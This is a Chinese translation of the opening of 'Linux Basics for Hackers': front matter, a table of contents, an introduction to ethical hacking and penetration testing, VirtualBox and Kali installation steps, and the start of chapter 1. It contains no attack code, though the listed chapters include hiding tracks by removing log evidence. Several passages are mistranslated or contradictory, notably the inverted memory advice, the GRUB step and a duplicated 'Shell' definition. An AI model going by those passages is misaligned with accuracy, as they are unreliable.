# 黑客 Linux 入门指南


## 在 Kali 中入门网络、脚本编写与安全

作者 OccupyTheWeb


我将这本书献给我的三个了不起的女儿。
你们是我的全部。

# 关于作者

OccupyTheWeb (OTW) 是黑客和渗透测试训练网站 https://www.hackers-arise.com/ 的创始人兼主要作者的笔名。他曾任大学教授，在信息技术行业拥有 20 多年的经验。他曾培训过全美的黑客，包括美国军队（陆军、空军和海军）以及美国情报机构（CIA、NSA 和 DNI）。他还是狂热的山地自行车和雪板爱好者。

# 关于技术审查员

从 Commodore PET 和 VIC-20 时代开始，技术一直是 Cliff Janzen 的伴侣（有时甚至是痴迷！）Cliff 在 2008 年从事十年 IT 运营后转入信息安全领域时发现了职业激情。从那时起，Cliff 非常幸运与行业中一些最优秀的人士合作并学习，包括本书制作期间的 OccupyTheWeb 以及 No Starch 的优秀同仁。他目前快乐地担任安全顾问，工作涵盖了从策略审查到渗透测试的所有领域。他感到很幸运能有一份既是他最喜欢的爱好的职业，并有一个支持他的妻子。

# 引言

# 致谢

# 引言

- 这本书是什么？
- 为什么使用 Kali？
- 如何使用本书？
- 道德黑客
- 渗透测试
- 使用虚拟机
- 设置 Kali
- 为什么使用 Linux？
- 文件系统
- 设置 Kali
- 命令行

# 1 入门基础

- 什么是终端是什么？
- 命令行
- 基础命令
- 找到你自己
- 导航文件
- 获取帮助
- 手册页
- 查找内容
- `locate`
- `whereis`
- 创建文件
- 创建目录
- 复制文件
- 重命名文件
- 删除文件
- 删除目录

# 2 文本处理

- 查看文件
- 使用 `head`
- 给行编号
- `tail`, `head`
- 使用 `grep` 过滤
- 使用 `sed` 查找和替换
- 使用 `more` 和 `less` 查看

# 3 分析与管理网络

- 使用 `ifconfig` 分析网络
- 使用 `iwconfig` 查看无线设备
- 更改 IP 地址
- 更改子网掩和广播地址
- 伪造 MAC 地址
- 从 DHCP 服务器分配新 IP
- 操作域名系统
- 使用 `dig` 查看 DNS
- 更改 DNS 服务器

# 4 添加和删除软件

- 使用 `apt` 处理软件
- 搜索软件包
- 删除软件
- 更新软件包
- 升级软件包
- 为 `sources.list` 添加存储库
- 使用图形界面安装程序
- 使用 `git` 安装软件

## 5 控制文件和目录权限

- 不同类型的用户
- 授予权限
- 为个人用户授予所有权
- 为组授予所有权
- 检查权限
- 修改权限
  - 使用数字表示修改权限
  - 使用 UGO 修改权限
- 为新工具赋予执行权限
- 使用 `mask` 设置更安全的默认权限
- 特殊权限
  - 通过 SUID 授予临时 root 权限
  - 授予 root 组权限
- 过时的粘位
- 特殊权限、权限提升与黑客

## 6 进程管理

- 查看进程
- 按进程名过滤
- 使用 `top` 查找贪婪进程
- 管理进程
  - 使用 `nice` 更改进程优先级
  - 杀死进程
- 在后台运行进程
- 将进程移至前台

# 9 压缩与归档

- 什么是压缩？
- 归打包
- 压缩文件
  - 使用 `gzip` 压缩
  - 使用 `bzip2` 压缩
  - 使用 `compress` 压缩
- 创建存储设备的位级拷贝或物理拷贝
- 总结
- 练习题

# 10 文件系统与存储设备管理

- 设备目录 `/dev`
  - Linux 如何表示存储设备
  - 驱动器分区
  - 字符设备与块设备
  - 使用 `lsblk` 列出块设备及信息
- 挂载与卸载
  - 手动挂载存储设备
  - 使用 `umount` 卸载
- 监控文件系统
  - 获取已挂载磁盘的信息
  - 检查错误
- 总结
- 练习题

# 11 日志系统

- `rsyslog` 日志守护进程
  - `rsyslog` 配置文件

# 这里的 rsyslog 日志规则

- 使用 `logrotate` 自动清理日志
- 保持隐身
- 移除证据
- 禁用日志
- 总结
- 练习题

# 12 使用与滥用服务

启动、停止和重启服务
使用 Apache Web 服务器创建一个 HTTP Web 服务器

- 从 Apache 开始
  - 编辑 `index.html` 文件
  - 添加一些 HTML
  - 观察发生了什么

OpenSSH 与树莓派间谍 Pi

- 设置树莓派
- 制作树莓派间谍 Pi
- 配置摄像头
- 开始监视

从 MySQL 提取信息

- 启动 MySQL
- 与 MySQL 交互
- 设置 MySQL 密码
- 访问远程数据库
  - 连接数据库
  - 数据库表
  - 检查数据
- 使用 Metasploit 进行 PostgreSQL
- 总结
- 练习题

# 13 变得安全与匿名

- 互联网如何出卖我们
- 洋葱路由系统 (Tor)
- Tor 如何工作
- 安全担忧
- 代理服务器
- 在配置文件中设置代理
- 更多有趣的选项
- 安全担忧
- 虚拟专用网络 (VPN)
- 加密邮件
- 总结
- 练习题

# 14 理解与检查无线网络

- Wi-Fi 网络
- 基础无线命令
- 使用 `airc-ng` 进行 Wi-Fi 侦测
- 检测并连接蓝牙
- 蓝牙如何工作
- 蓝牙扫描与侦测
- 总结
- 练习题

# 15 管理 Linux 内核与可加载内核模块

- 什么是内核模块？
- 检查内核版本
- 使用 `sysctl` 进行内核优化

管理内核模块

- 使用 `modinfo` 查找更多信息
- 使用 `modprobe` 添加和删除模块
- 插入和移除内核模块
- 总结
- 练习题

# 16 通过任务调度实现自动化

调度自动运行的事件或任务

- 调度备份任务
- 使用 `crontab` 调度你的 MySQLscanner
- `crontab` 快捷键
- 使用 `rc` 脚本在启动时运行任务
- Linux 运行级别 (Runlevels)
- 向 `rc.d` 添加服务
- 通过 GUI 向启动项添加服务
- 总结
- 练习题

# 17 黑客必备的 Python 脚本基础

添加 Python 模块

- 使用 `pip`
- 安装第三方模块
- Python 脚本编写入门
- 变量
- 注释
- 函数
- 列表
- 模块

# 面对象编程 (OOP)

Python 中的网络通信

构建一个 TCP 客户端

- 创建 TCP 监听器

字典、循环与控制语句

- 字典
- 控制语句
- 循环

改进我们的黑客脚本

异常与密码破解器

- 总结
- 练习题

# 致谢

这本书的写成离不开几位关键人物的合作。
首先，我要感谢并致谢 Liz Chadwick，她提议了这本书并担任了内容主编。她的坚持和奉献使这本书成为可能。
其次，我要感谢 No Starch Press 出版人 Bill Pollock，他对比本书的信任与支持。
第三，我要感谢我的技术评审员 Cliff Janzen 的辛勤工作，他确保了书中技术内容的准确性。
任何剩余的错误或遗漏完全是我的责任。
最后，我要感谢并感谢 No Starch Press 的所有专业人士，感谢他们为完成书籍并上市所付出的努力。谢谢。

# 引言


黑客技术是 21 世纪最重要的技能之一！我做出这句话并非偶然。近年来发生的事件似乎每天早晨的新闻标题都在印证这一观点。各国之间相互间谍以获取秘密，网络犯罪分子正在窃取数十亿美元，索要赎金的数字世界正在释放，对手正在影响对方的选举，战斗双方正在破坏对方的公用事业。这些都是黑客的工作，他们对我们日益数字化的世界的影响才开始被感受到。

在通过 Null-Byte (https://www.hackers-arise.com/) 与数万志向黑客交流，并与美国军几乎每个分支和情报机构（NSA、DIA、CIA 和 FBI）合作后，我决定写这本书。这些经历告诉我，许多志向黑客对 Linux 几乎完全没有经验，而这种经验的缺乏是他们成为职业黑客之路的主要障碍。几乎所有内容都是在 Linux 下编写的，因此基础 Linux 技能是成为职业黑客的先决条件。写这本书是为了帮助志向黑客克服这一障碍。


黑客技术是 IT 领域的一个精英职业。因此，它需要广泛且详细的知识。它需要你了解

# 什么是道德黑客？

随着近年来信息安全领域的发展，道德黑客领域（也称为白帽黑客）也经历了巨大的增长。道德黑客是一种尝试渗透并利用系统以发现缺陷并更好地保护它们。我将道德黑客攻击领域分为两个主要部分：为合法的信息安全公司进行渗透测试，以及为你国家的军事或情报机构工作。这两个都是快速增长的领域，需求非常旺。

## 渗透测试

随着组织对安全的意识日益增强，安全泄露的成本呈指数级增长，许多大型组织开始外包安全服务。这些关键安全服务之一就是渗透测试。渗透测试本质上是一种合法的、受委托的黑客攻击，旨在展示公司网络和系统的漏洞。

通常，组织会先进行漏洞评估，以发现其网络、操作系统和服务程序中的潜在漏洞。我强调了“潜在”一词，因为这种漏洞扫描包含大量的误报（即被识别为漏洞但实际上并非漏洞的内容）。渗透测试员的角色是尝试对这些漏洞进行黑客攻击或渗透。只有这样，组织才能知道漏洞是否真实，并决定投入时间和金钱来修复该漏洞。

## 军事与间谍

地球上几乎每个国家都参与网络间谍活动和网络战争。人们只需浏览新闻就能发现，网络活动是监视和攻击军事及工业系统的选择方法。

黑客攻击在这些军事和情报收集活动中起着至关重要的作用，随着时间的推移，这一点将更加真实。想象未来的战争，黑客可以获取对手的战争计划，并瘫痪他们的电网、炼油厂和水系统。这些活动现在每天发生。因此，黑客成为了国家防御的关键组成部分。

## 为什么黑客使用 Linux

为什么黑客使用 Linux 而其他操作系统？主要是因为 Linux 通过几种不同的方法提供了更高水平的控制。

### Linux 是开源的

与 Windows 不同，Linux 是开源的，这意味着操作系统的源代码对你是开放的。因此，你可以随心所欲地更改操控它。如果你试图让系统以其并非设计的方式运行，能够操控源代码是至关重要的。

### Linux 是透明的

为了进行有效的攻击，你必须了解并理解你的操作系统，并且在很大程度上了解你正在攻击的操作系统。Linux 是完全透明的，这意味着我们可以看到并操控它所有的工作部分。

Windows 则不然。微软努力让了解操作系统的内部运作变得尽可能困难，因此你永远不知道“盖内部”发生了什么，而在 Linux 中，你有一束光灯直接照在系统的每一个组件上。这使得使用 Linux 更加高效。

### Linux 提供细粒度控制

Linux 是细粒度的。这意味着你对系统拥有几乎无限的控制权。在 Windows 中，你只能控制微软允许你控制的内容。在 Linux 中，一切都可以通过终端控制，无论是在最微的层面还是最宏观的层面。此外，Linux 让在任何脚本语言中编写脚本变得简单高效。

### 大多数黑客工具都是为 Linux 编写的

超过 90% 的黑客工具都是为 Linux 编写的。当然也有例外，例如 Cain and Abel 和 Wikto，但这些例外证明了规律。即使将 Metasploit 或 nmap 等黑客工具移植到 Windows，并不是所有的功能都能从 Linux 迁移。

### 未来属于 Linux/Unix

这看起来像是一个激进的陈述，但我坚信信息技术的未来属于 Linux 和 Unix 系统。微软在 20 世纪 80 年代和 90 年代有过辉煌，但它的增长正在放缓并停滞。

自从互联网开始以来，Linux/Unix 因其稳定性、可靠性和健壮性，一直是 Web 服务器的操作系统。直到今天，Linux/Unix 也被用于三分之二的 Web 服务器并主导市场。路由器、交换机和其他设备中的嵌入式系统几乎总是使用 Linux 内核，虚拟化世界由 Linux 主导，VMware 和 Citrix 都构建在 Linux 内核之上。

超过 80% 的移动设备运行 Linux 或 Unix（iOS 是 Unix，Android 是 Linux），所以如果你认为计算的未来在于平板电脑和手机等移动设备（很难反驳这一点），那么未来就是 Unix/Linux。微软 Windows 仅占移动设备市场的 7%。那是你想要挂在后面的那辆小马车吗？

## 下载 Kali Linux

在开始之前，你需要在计算机上下载并安装 Kali Linux。这是我们在整本书中使用的 Linux 发行版。Linux 最初由 Linus Torvalds 于 1991 年开发，作为 Unix 的开源替代品。由于它是开源的，志愿者开发者为内核、实用程序和应用程序编写代码。这意味着没有凌驾于之上的公司实体来监督开发，因此往往缺乏惯例和标准。

Kali Linux 由 Offensive Security 开发，作为一种黑客操作系统，它是基于名为 Debian 的 Linux 发行版构建的。Linux 有许多发行版，Debian 是其中最好的之一。你可能最熟悉 Ubuntu，它是 Linux 的一种桌面发行版。Ubuntu 也是基于 Debian 构建的。其他发行版包括 Red Hat、CentOS、Mint、Arch 和 SUSE。尽管它们都共享相同的 Linux 内核（控制 CPU、内存的操作系统核心）。

VMware、Oracle、Microsoft 以及其他供应商提供了许多虚拟机应用程序。它们都非常出色，但在这里我将向你展示如何下载并安装 Oracle 免费的 VirtualBox。

## 安装 VirtualBox

你可以从 https://www.virtualbox.org/ 下载 VirtualBox，如图 1 所示。点击左侧菜单中的“下载”（Downloads）链接，并为你电脑当前的操作系统系统选择对应的 VirtualBox 软件包，该包将托管 VirtualBox 虚拟机。确保下载的是最新版本。



下载完成后，点击安装文件，你将看到如图 2 所示熟悉的安装向导（Setup Wizard）。


图 2：安装向导对话框

点击“下一步”（Next），你将看到如图 3 所示的自定义设置（Custom Setup）界面。



图 3：自定义设置对话框

从此界面开始，只需点击“下一步”。一直点击“下一步”，直到进入网络接口警告界面，然后点击“是”（Yes）。

点击“安装”（Install）开始该过程。在此过程中，可能会多次提示你安装设备软件。这些是你的虚拟机进行通信所需的虚拟网络设备。对每个提示项都点击“安装”。

安装完成后，点击“完成”（Finish）。

## 设置你的虚拟机

现在让我们开始设置你的虚拟机。VirtualBox 在安装后应该会自动打开——如果没有打开，请手动打开它——你将看到如图 4 所示的 VirtualBox 管理器。



由于我们将创建一个带有 Kali Linux 的虚拟机，请点击左上角的“新建”（New）。这将打开如图 5 所示的创建虚拟机对话框。

为你的机器取一个名称（任何名称都可以，我简单地使用了 Kali），然后从“类型”（Type）下拉菜单中选择 Linux。最后，从第三个下拉菜单中选择 Debian (64-bit)（除非你正在使用 32 位的 Kali，如果是的话，请选择 Debian 32 位版本）。点击“下一步”，你将看到一个类似图 6 所示的界面。在这里，你需要选择想要分配给这个新虚拟机的内存（RAM）。



图 5：创建虚拟机对话框


图 6：分配内存

根据经验，我不建议使用系统总内存的 25%。这意味着如果你在物理或主机系统上安装了 4GB 内存，则为你的虚拟机选择 1GB；如果你的物理系统有 16GB 内存，则选择 4GB。给虚拟机的内存越多，它运行得就越好越快，但你必须为主机操作系统以及任何可能同时运行的其他虚拟机留出足够的内存。当你未使用虚拟机时，它们不会占用任何内存，但它们会占用硬盘空间。

点击“下一步”，你将进入硬盘界面。选择“创建虚拟硬盘”（Create Virtual Hard Disk）并点击“创建”（Create）。

在下一个界面中，你可以决定你创建的硬盘是动态分配还是固定大小。如果你选择“动态分配”（Dynamically Allocated），系统在需要之前不会占用你为虚拟硬盘分配的整个最大空间，从而为主机系统节省更多未使用的硬盘空间。我建议你选择动态分配。

点击“下一步”，你将选择分配给虚拟机的硬盘空间大小以及虚拟机的存放位置（见图 7）。


图 7：分配硬盘


默认值为 8GB。我通常认为这个值有点小，建议你至少分配 20–25GB。记住，如果你选择了动态分配硬盘空间，在在需要之前它不会占用该空间，而且在分配后扩展硬盘可能会很麻烦，所以宁多勿少。

点击“创建”（`Create`），你就准备好了！

## 在虚拟机上安装 Kali

此时，你应该会看到一个类似图 8 所示的界面。现在你需要安装 Kali。注意，在 VirtualBox 管理器的左侧，你应该看到 Kali 虚拟机处于关机状态的指示。点击“启动”（`Start`）按钮（绿色箭头图标）。



图 8：VirtualBox 管理器

（注：原文在“Note on the left of the VirtualBox Manager...”之后出现了大量重复段落，译文已根据逻辑流程进行去重处理。）


Kali 现在将开始安装操作系统。这可能需要一些时间，请耐心等待。现在是时候去上个手间并准备你最喜欢的饮料了。

安装完成后，系统会提示你是否想要使用网络镜像。这实际上并不是必要的，所以请点击 `No`（否）。

然后，Kali 会提示你是否想要安装 GRUB（大统一引导加载程序），如图 14 所示。*引导加载程序*允许你选择不同的操作系统进行启动，这意味着当启动机器时，你可以选择进入 Kali 或另一个操作系统。选择 `Yes`（是）并点击 `Continue`（继续）。


图 14：正在安装 GRUB

在下一个屏幕上，系统会提示你是想自动还是手动安装 GRUB 引导加载程序。由于目前尚不清楚的原因，如果你选择第二个选项，Kali 在安装后可能会挂起并显示空白屏幕。如图 15 所示，选择 `Enter device manually`（手动输入设备）。


在随后的屏幕上，选择要安装 GRUB 引导加载程序的驱动（它可能类似于 `/dev/sda*`）。点击进入下一个屏幕，屏幕应该提示你安装已完成。

恭喜你！你已经安装了 Kali。点击 `Continue`。Kali 将尝试重启，你将看到几行代码在空白的黑色屏幕上闪，最后你将看到 Kali 2018 的登录界面，如图 16 所示。



图 16：Kali 登录界面

以 `root` 身份登录，系统会要求你输入密码。输入你为 root 用户设置的任何密码。

以 root 登录后，你将看到 Kali Linux 桌面，如图 17 所示。



图 17：Kali 主界面

你现在已经准备好开启激动人的黑客领域之旅了！欢迎！

# 1 基础入门


从本性上说，黑客是行动派。我们想要触碰并玩弄事物。我们还想要创造，有时也想破坏事物。很少有人想在做自己最热爱的事情——黑客攻击之前，先读冗长的信息论大部。考虑到这一点，本章旨在为你提供一些基础技能，让你现在就能在 Kali 中运行起来……

在本章中，我们不会详细介绍任何一个概念——我们涵盖的内容将足够让你在黑客的操作系统：Linux 中玩耍和探索。我们将更深入的讨论留给后面的章节。

## 介绍性术语和概念

在我们开始开启黑客 Linux 基础知识的奇妙之旅之前，我想介绍几个术语，它们应该能澄清本章后面讨论的一些概念。

- *Binaries*（二进制文件）：该术指的是可以执行的文件，类似于 Windows 中的可执行文件。二进制文件通常位于 `/usr/bin` 或 `/usr/sbin` 目录，并包括 `ps`、`cat`、`ls` 和 `cd` 等实用程序（我们在本章中也会触及这四个工具，以及诸如无线黑客工具 `aircrack-ng` 和入侵检测系统 (IDS) `Snort` 等应用程序）。

- *Case sensitivity*（大小写敏感）：与 Windows 不同，Linux 是大小写敏感的。这意味着 `Desktop` 与 `desktop` 不同，而 `desktop` 又与 `Desktop` 不同。这每一个词都代表一个不同的文件或目录名称。许多来自 Windows 环境的人可能会发现这令人困扰。如果你收到“file or directory not found”（找不到文件或目录）的错误信息，且你确定文件或目录存在，你可能需要检查你的大小写。

- *Directory*（目录）：这与 Windows 中的文件夹相同。目录提供了一种组织文件的方法，通常是分级结构。

- *Home*（主目录）：每个用户都有自己的 `/home` 目录，这通常是你创建的文件默认保存的地方。

- *Kali*：Kali 是一种专门为渗透测试设计的 Linux 发行版。它预装了数百种工具，节省了你自己下载和安装它们所需的数小时。我在写本文时使用的是 Kali 的最新版本：Kali 2018.2，首次于 2018 年 4 月发布。

- *root*：与几乎每个操作系统一样，Linux 有一个管理员或超级用户账户，供信任人员使用，该人员可以在系统上执行几乎操作。这包括重新配置系统、添加用户和更改密码等。在 Linux 中，该账户被称为 `root`。作为黑客或渗透测试员，你经常使用 root 账户来获得对系统的控制权。事实上，许多黑客工具要求你使用 root 账户。

- *Script*（脚本）：这是解释环境中的一系列命令，将每行转换为源代码。许多黑客工具仅仅是脚本。脚本可以使用解释器运行。

- *Shell*（外壳）：这是解释器环境中的一系列命令，将每行转换为源代码。Linux 最常用的 shell 是 `bash`。

- *Terminal*（终端）：这是一个命令行界面。

有了这些基础知识后，我们将系统地开发成为黑客或渗透测试员所需的 Linux 技能。在本章中我将带你上手 Kali。

## Kali 概览

一旦启动 Kali，你将看到登录界面，如图 1-1 所示。使用账户 `root` 和默认密码 `root` 登录。



图 1-1：使用 root 登录 Kali

你现在可以访问 Kali 桌面（见图 1-2）。我们将快速查看桌面的两个基本方面：终端界面和文件结构。


图 1-2：Kali 桌面

### Terminal

使用 Kali 的第一步是打开终端，它是命令行界面。在 Kali Linux 中，你可以在底部找到终端图标，或者按下 `CTRL-ALT-T`。你的终端看起来应该像图 1-3 所示。

